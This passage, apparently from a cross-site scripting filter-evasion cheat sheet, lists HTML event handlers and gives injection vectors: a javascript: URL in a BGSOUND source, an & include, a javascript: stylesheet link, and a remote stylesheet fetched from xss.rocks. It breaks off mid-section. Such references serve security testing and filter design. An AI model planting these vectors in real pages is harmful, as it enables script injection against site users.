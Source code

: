 96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element's ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

## BGSOUND

```html
<BGSOUND SRC="javascript:alert('XSS');">
```

## & JavaScript includes

```html
<BR SIZE="&{alert('XSS')}">
```

## STYLE sheet

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

## Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:

```html
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

## Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:
